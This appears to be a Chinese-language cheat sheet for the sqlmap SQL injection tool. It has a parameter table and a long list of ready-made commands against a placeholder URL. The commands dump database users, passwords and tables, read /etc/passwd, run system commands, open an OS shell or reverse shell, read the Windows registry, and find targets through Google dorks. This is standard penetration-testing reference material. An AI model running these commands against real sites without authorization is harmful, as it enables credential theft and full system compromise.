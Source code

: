 [sqlmap 中文指南](https://github.com/sqlmapproject/sqlmap/blob/master/doc/translations/README-zh-CN.md)


[sqlmap useage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)


```bash
# 测试借口
sqlmap -u   [url]  
```

sql参数
|参数|含义|
|---|---|
|--dbs|可用数据库|
|--current-db|当前数据库|
|--current-user|当前用户|
|--users|列出所有用户|
|--passwords|数据库账户和密码|
|-D|指定数据库名称|
|--tables|列出表|
|--columns|检出列|
|-T|指定数据表|
|-C|表字段内容|
|--dump|导出|
|-start 1 |起点|
|--stop |最后的数据|
|--os-shell||
|--file-read||
----
参考
* [sqlmap 简单快速实践](http://blog.csdn.net/zgyulongfei/article/details/41017493)


常用
|命令|含义|
|---|---|
|python sqlmap/sqlmap.py -u "http://url/news?id=1"  --smart  --level 3 --users  |# smart智能 level  执行测试等级
|python sqlmap/sqlmap.py -u "http://url/news?id=1"  --dbms "Mysql" --users  |# dbms 指定数据库类型
|python sqlmap/sqlmap.py -u "http://url/news?id=1"    --users  |#列数据库用户
|python sqlmap/sqlmap.py -u "http://url/news?id=1"    --dbs|#列数据库 
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   --passwords |#数据库用户密码 
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   --passwords-U root  -v 0 |#列出指定用户数据库密码
|python sqlmap/sqlmap.py -u "http://url/news?id=1"     --dump -C "password,user,id" -T "tablename" -D "db_name" --start 1 --stop 20  |#列出指定字段，列出20条 
 |python sqlmap/sqlmap.py -u "http://url/news?id=1"    --dump-all -v 0 |#列出所有数据库所有表
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   --privileges |#查看权限 
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   --privileges -U root| #查看指定用户权限
|python sqlmap/sqlmap.py -u "http://url/news?id=1"    --is-dba -v 1| #是否是数据库管理员
|python sqlmap/sqlmap.py -u "http://url/news?id=1"    --roles |#枚举数据库用户角色 
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   --udf-inject |#导入用户自定义函数（获取系统权限！）
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   --dump-all --exclude-sysdbs -v 0| #列出当前库所有表
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   --union-cols #union| 查询表记录 
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   --cookie "COOKIE_VALUE" |#cookie注入
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   -b |#获取banner信息
|python sqlmap/sqlmap.py -u "http://url/news?id=1" --data "id=3"  |#post注入
|python sqlmap/sqlmap.py -u "http://url/news?id=1"  -v 1 -f |#指纹判别数据库类型 
|python sqlmap/sqlmap.py -u "http://url/news?id=1"  --proxy"http://127.0.0.1:8118" |#代理注入
|python sqlmap/sqlmap.py -u "http://url/news?id=1"--string"STRING_ON_TRUE_PAGE" | #指定关键词
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   --sql-shell |#执行指定sql命令
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   --file /etc/passwd 
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   --os-cmd=whoami |#执行系统命令
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   --os-shell| #系统交互shell
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   --os-pwn |#反弹shell 
|python sqlmap/sqlmap.py -u "http://url/news?id=1"   --reg-read| #读取win系统注册表
|python sqlmap/sqlmap.py -u "http://url/news?id=1"    --dbs-o "sqlmap.log"| #保存进度 
|python sqlmap/sqlmap.py -u "http://url/news?id=1"    --dbs  -o "sqlmap.log" --resume | #恢复已保存进度sqlmap -g "google语法" --dump-all --batch  #google搜索注入点自动 跑出所有字段攻击实例
python sqlmap/sqlmap.py -u "http://url/news?id=1&Submit=Submit" --cookie="PHPSESSID=41aa833e6d0d28f489ff1ab5a7531406" --string="Surname" --dbms=mysql --users --password